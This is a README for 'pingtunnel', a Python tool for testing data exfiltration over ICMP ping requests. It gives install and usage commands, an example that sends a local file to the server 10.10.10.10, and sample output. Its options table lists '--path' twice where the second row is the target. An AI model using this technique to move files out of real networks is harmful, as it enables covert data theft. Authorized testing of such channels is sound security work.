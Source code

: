 # Disclaimer

Usage of this tool for educational or authorized use only and at your own responsibility.

# Description

Test possible data exfiltration through ping requests

# Installation

`pip install pingtunnel`

# Usage

**From command line:**

`python -m pingtunnel --path PATH --target TARGET --interval INTERVAL`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--path | -p | String | - | Path to file to be exfiltrated |
|--path | -p | String | - | IP of exfiltration server |
|--interval | -i | Float | 1.0 | Nr of seconds between pings |


# Example

`python -m pingtunnel -p ./example.jpg -t 10.10.10.10`

- Make sure to use `tcpdump` or `wireshark` on the exfiltration server in
order to capture the ping requests

```
################################################################################

pingtunnel by 5f0
Test possible data exfiltration through ping requests

Current working directory: path/to/pingtunnel

Datetime: 01/01/1970 10:11:12

################################################################################

Status
---
    Exfiltration Server: 10.10.10.10
 File to be exfiltrated: ./example.jpg

  Total Number of Bytes: 1094
Number of Ping Requests: 35.0
 Interval between Pings: 1.0 seconds


Execution
---
-> Split ./example.jpg in 35.0 chunks
-> Send chunks


--> Transmission successful!

################################################################################

Execution Time: 0.014563 sec
```

# License

MIT